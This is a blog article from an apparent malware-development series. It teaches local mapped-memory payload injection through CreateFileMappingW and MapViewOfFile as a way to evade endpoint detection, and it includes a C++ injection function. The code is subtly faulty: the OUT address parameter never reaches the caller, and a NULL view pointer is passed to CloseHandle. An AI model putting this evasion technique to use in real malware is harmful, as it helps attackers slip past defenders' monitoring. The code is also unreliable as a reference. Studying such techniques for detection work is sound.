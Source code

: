 ```yaml
---
title: "Malware Development: Crafting Digital Chaos 0x9: Private vs Mapped memory"
classes: wide
header:
  teaser:  /assets/images/law.jpg
ribbon: black
description: "Article 10 of Malware Development series"
categories:
  - Malware Development
tags:
  - Malware Development
  - Injection
  - Memory
  - WinAPI
  - C++
toc: true
---
```


# Private vs Mapped memory

Usually and for the wide use of API calls such as `VirtualAlloc()` and `VirtualAllocEx()` and as the memory allocation type of these API calls is Private memory, the detection is becoming very high and thus it is mandatory to find an evasion technique.

Another type of Injection can be Mapping Injection, or in other words injecting malicious code in `Mapped` memory sections, and this way we can avoid using the API calls we mentioned above and use API calls such as `CreateFileMapping` and `MapViewOfFile`.

# Payload Injection in Mapped regions

## CreateFileMapping 

This API call return a handle to a file object, and the contents of the file on disk are mapped to a memory region.

```cpp
HANDLE CreateFileMappingW(
  [in]           HANDLE                hFile,
  [in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes,
  [in]           DWORD                 flProtect,
  [in]           DWORD                 dwMaximumSizeHigh,
  [in]           DWORD                 dwMaximumSizeLow,
  [in, optional] LPCWSTR               lpName
);
```

### Important Parameters

`[in] hFile`

A handle to the file from which to create a file mapping object.

`[in] flProtect`

Specifies the page protection of the file mapping object. All mapped views of the object must be compatible with this protection.

We usually use `PAGE_EXECUTE_READWRITE` here.

`[in] dwMaximumSizeLow`

The low-order  **DWORD**  of the maximum size of the file mapping object.

## MapViewofFile

This API call maps a view of a file mapping into the address space of a calling process.

```cpp
LPVOID MapViewOfFile(
  [in] HANDLE hFileMappingObject,
  [in] DWORD  dwDesiredAccess,
  [in] DWORD  dwFileOffsetHigh,
  [in] DWORD  dwFileOffsetLow,
  [in] SIZE_T dwNumberOfBytesToMap
);
```

### Important parameters

`[in] hFileMappingObject`

A handle to a file mapping object. The  [CreateFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createfilemappinga)  and  [OpenFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-openfilemappinga)  functions return this handle

`[in] dwDesiredAccess`

The type of access to a file mapping object, which determines the page protection of the pages. 

We usually use **FILE_MAP_EXECUTE** and **FILE_MAP_WRITE** because we obviously need a writeable and executable memory region.

`[in] dwNumberOfBytesToMap`

The number of bytes of a file mapping to map to the view

# Performing Injection to a Mapped memory

Here is the function that we will be using to perform the injection

```cpp
BOOL LocalMapping(IN PBYTE pPayload, IN size_t pPayloadSize, OUT PVOID pAddress) {

    HANDLE hFile = NULL;
    PVOID pMapAddress = NULL;


    hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, pPayloadSize, NULL);

    if (hFile == NULL) {
        printf("CreateFileMapping failed with error %d", GetLastError());
        CloseHandle(hFile);
        return 0;
    }

    pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, pPayloadSize);

    if (pMapAddress == NULL) {

        printf("MapViewofFile failed with error %d", GetLastError());
        CloseHandle(pMapAddress);
        return 0;
    }

    memcpy(pMapAddress, pPayload, pPayloadSize);
    pAddress = pMapAddress;
    return 1;
}
```

The code above implements what is called ``local mapped memory injection`` by creating an executable and writable memory region and then mapping it into the process's address space 

Then copying the payload into this mapped memory. here `CreateFileMappingW` is used to create a memory-mapped file object and `MapViewOfFile` to map this object into memory with `PAGE_EXECUTE_READWRITE` permissions. The payload is then copied into the allocated memory using `memcpy`.

# Executing

Lets execute and examine the memory regions after copying the payload.

We set a breakpoint after the `memcpy`.

![P0](/assets/images/malware-development/10-0.png)

And we can check the memory region type also by using Process Hacker.

![P1](/assets/images/malware-development/10-0.png)

As we can see, the memory is Mapped not Private, which helps us in improving our evasion technique and appearing more legitimate.
